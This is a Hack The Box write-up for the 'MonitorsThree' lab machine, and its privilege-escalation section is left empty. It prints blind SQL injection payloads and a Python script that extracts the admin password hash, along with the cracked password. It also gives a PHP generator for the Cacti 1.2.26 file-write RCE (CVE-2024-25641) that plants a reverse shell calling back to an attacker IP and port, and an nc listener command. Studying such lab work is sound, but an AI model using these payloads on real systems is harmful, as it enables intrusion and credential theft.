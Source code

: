 This is a writeup for recently expired monitorsthree machine in Hackthebox platform.

### Part 1: Enumeration

As always lets startup with good old nmap scan:

![NMAP](/static/writeups/monitors/1.png)

SSH and HTTP with port 22 and 80 respectively are open.
lets see what website is hosted in port 80, we have to add monitorsthree.htb to machine ip in /etc/hosts:

![NMAP](/static/writeups/monitors/2.png)

I can see site called monitorsthree.htb, lets enumerate subdomain:
as i used bash script, to add wordlist to /etc/host and send request to it:

```
#!/bin/bash

DOMAIN="monitorsthree.htb"
IP="10.10.11.30"

WORDLIST="/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt"


while read -r SUBDOMAIN; do
    FULLDOMAIN="${SUBDOMAIN}.${DOMAIN}"

    echo "$IP $FULLDOMAIN" >> /etc/hosts

    RESPONSE=$(curl -s -o /dev/null -w "%{http_code}" "http://$FULLDOMAIN")

    if [ "$RESPONSE" == "302" ]; then
        echo "Found: $FULLDOMAIN"
    fi

    sed -i "/$FULLDOMAIN/d" /etc/hosts

done < "$WORDLIST"

```

I found interesting subdomain called 'cacti.monitorsthree.htb', it asks for login credentials we don't have any so for now lets keep note of it.

there is a login page in monitorsthree.htb/login.php, and when using forgot password, i found sql injection in forgot_password.php by submitting:`'`:

![NMAP](/static/writeups/monitors/3.png)

### Part 2: Foothold

by submitting : `'order by 3--+`
till it gives error, from error I can see that it uses mariadb.
When I use nine column:

<span style="color: red;">
ad'union select null,null,null,null,null,null,null,null,null from dual--
</span>

it says successfully sent request code, so I know that query is returning nine column. but,no query result or anything is shown.
so, I think i got my hands on BLIND SQli which might be response based.

By submitting,

<span style="color: red;">ad'||(SELECT '' FROM table)||'</span>

it gives error and querying using

<span style="color: red;">ad'||(SELECT '' FROM users)||'</span>

gives successful output

![NMAP](/static/writeups/monitors/5.png)

now I know there is a table called users.
To enumerate user, i first used username administrator

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='administrator')='a')||'</span>

this gives error: 'Unable to process request, try again!'

![NMAP](/static/writeups/monitors/4.png)

but as when I input admin:

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='admin')='a')||'</span>

it outputs: 'Successfully sent password reset request!'

![NMAP](/static/writeups/monitors/5.png)

so, I know there is user called admin now. Now, to enumerate password first i need to find length of the password so i can design payload accordingly.

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='admin' and length(password)=32)='a')||'</span>

it returns successful so, password length must be 32, it means it is some kind of hash

<span style="color: red;">
ad' ||(SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='3'||'
</span></br>
<span style="color: red;">
ad' ||(SELECT SUBSTRING(password,2,1) FROM users WHERE username='admin')='1'||'
</span>

As it returns successful message back like this, I found first and second character of hash but it is time consuming so i decided to do it with python script:

```

import requests
import time

# Target URL
url = "http://monitorsthree.htb/forgot_password.php"

# Initialize known characters of the password
known_password = ""

# List of possible characters (you may adjust as needed)
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Function to check if a guessed character is correct
def is_correct_char(position, char):
    # Construct payload
    payload = f"ad' ||((SELECT SUBSTRING(password,{position},1) FROM users WHERE username='admin')='{char}')||'"

    # Data to be sent in the POST request
    data = {
        "username": payload,
        "submit": "Send"
    }

    try:
        # Send the POST request
        response = requests.post(url, data=data)
        # Check response to see if the guess was correct
        if "Successfully sent password reset request!" in response.text:
            return True
    except requests.exceptions.ConnectionError as e:
        print("Connection error. Retrying...")
        time.sleep(5)  # Wait for 5 seconds before retrying
        return is_correct_char(position, char)
    return False

# Loop to find each character of the password
for position in range(1, 33):  # Assuming password length is 32
    for char in characters:
        if is_correct_char(position, char):
            # Add the correct character to the known password
            known_password += char
            print(f"[+] Found character {position}: {char}")
            break
    # Delay to avoid server-side rate limiting or detection
    time.sleep(1)  # Adjust the delay as necessary

# Print the complete password when done
print(f"[+] Password: {known_password}")

```

Output:

![NMAP](/static/writeups/monitors/6.png)

I got admin user hash value from it:

By using hashid, i think it is md5 hash

![NMAP](/static/writeups/monitors/7.png)

I cracked the hash using hashcat which corresponds to: greencacti2001

![NMAP](/static/writeups/monitors/8.png)

Now, lets use these credential in login.php and 'cacti.monitorsthree.htb'. One thing i notice when opening 'cacti.monitorsthree.htb' is it is using cacti v 1.2.26 and quick research shows us vulnerability in this specific version to use Arbitrary file write to RCE.

[https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26.git]

To get shell i used this:

```

<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/shell.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php
\$ip = '10.10.14.59';
\$port = 3669;
\$sock = fsockopen(\$ip, \$port);
\$proc = proc_open('/bin/bash -i', array(0 => \$sock, 1 => \$sock, 2 => \$sock), \$pipes);
?>";

$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("shell.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat shell.xml | gzip -9 > shell.xml.gz; rm shell.xml");

?>

```

save this as shell.php and run it using `php shell.php`, it will generate file called shell.xml.gz upload it in import packages in cacti:

![NMAP](/static/writeups/monitors/9.png)

As you can see, I successfully uploaded shell.php in the machine, I can execute it by going to: `http://cacti.monitorsthree.htb/cacti/resource/shell.php`
before that open netcat listener in your machine: `nc -nvlp port`
I got shell as www-data using this method.

### Part 3: Privilege Escalation:

```

```
